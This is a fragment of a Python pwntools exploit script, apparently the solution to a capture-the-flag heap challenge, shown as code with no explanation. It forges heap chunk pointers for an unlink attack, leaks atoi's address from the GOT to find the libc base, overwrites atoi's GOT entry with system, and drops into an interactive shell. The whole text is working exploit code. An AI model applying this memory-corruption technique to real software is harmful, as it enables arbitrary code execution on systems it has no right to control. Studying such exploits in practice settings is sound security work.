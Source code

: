 ```python
    sh.sendlineafter("TheNewContents:",content)

sh.sendlineafter('Input your name:','mthg')
sh.sendlineafter('Input your address:','mth')
ptr_addr = 0x602120
fake_fd = ptr_addr - 0x18
fake_bk = ptr_addr - 0x10
atoi_got = elf.got['atoi']
one_addr = 0xf02a4

payload = b'\x00' * 8 + p64(0xa1) + p64(fake_fd) + p64(fake_bk)
create(0x80,payload)
create(0x0,b'aa')
create(0x80,b'/bin/sh\x00')

edit(b'1',b'1',b'a' * 0x18 + p8(0x90))
for i in range(8):
        edit(b'1',b'1',b'a' * (0x17 - i) + b'\x00')
edit(b'1',b'1',b'a' * 0x10 + p64(0xa0))
delete(b'2')

edit(b'0',b'1',0x18 * b'a' + p64(atoi_got))
check(b'0')
sh.recvuntil("is ")
atoi_addr = u64(sh.recv(6).ljust(8, b"\x00"))
libc_base = atoi_addr - libc.sym['atoi']
system_addr = libc_base + libc.sym['system']
one_gadget = libc_base + one_addr
edit(b'0',b'1',p64(system_addr))

sh.interactive()
```

